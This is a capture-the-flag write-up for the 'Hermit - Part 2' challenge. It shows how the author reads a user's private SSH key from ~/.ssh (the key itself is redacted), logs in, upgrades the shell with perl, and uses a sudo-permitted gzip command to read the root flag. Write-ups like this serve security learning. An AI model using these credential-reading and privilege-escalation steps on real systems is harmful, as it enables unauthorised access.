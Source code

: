 # Hermit - Part 2

>Who are you? How did you get here? You better zip on out of here or else.
>
>104.197.195.221:8087 34.121.84.161:8087
>
>Created by Cobchise#6969
>
>(The server is likely not broken. If you really think it's broken, create a support ticket.)

>## Hint1 
>Try enumeration

>## Hint2
>The port you are looking for has been forwarded to 8087.

```
$ cat /home/hermit/.ssh/id_ed25519
-----BEGIN OPENSSH PRIVATE KEY-----
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
-----END OPENSSH PRIVATE KEY-----
```


```bash
$ ssh -i id_ed25519 hermit@104.197.195.221 -p 8087
Linux 162d488eac13 4.19.0-16-cloud-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 28 15:14:43 2021 from 180.150.57.6
-sh: 35: set: Illegal option -o history
$ whoami
hermit
```

## upgrading shell
```
$ which python3
$ which python
$ which perl
/usr/bin/perl

$ perl -e 'exec("/bin/bash")'
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LANG = "en_CA.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
hermit@162d488eac13:~/flag$ 

```

## sudo -l

```bash
hermit@162d488eac13:~/flag$ sudo -l
Matching Defaults entries for hermit on 162d488eac13:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hermit may run the following commands on 162d488eac13:
    (ALL : ALL) ALL
    (root) NOPASSWD: /bin/gzip -f /root/rootflag.txt -t

hermit@162d488eac13:~/flag$ sudo /bin/gzip -f /root/rootflag.txt -t
UMASS{a_test_of_integrity}
```
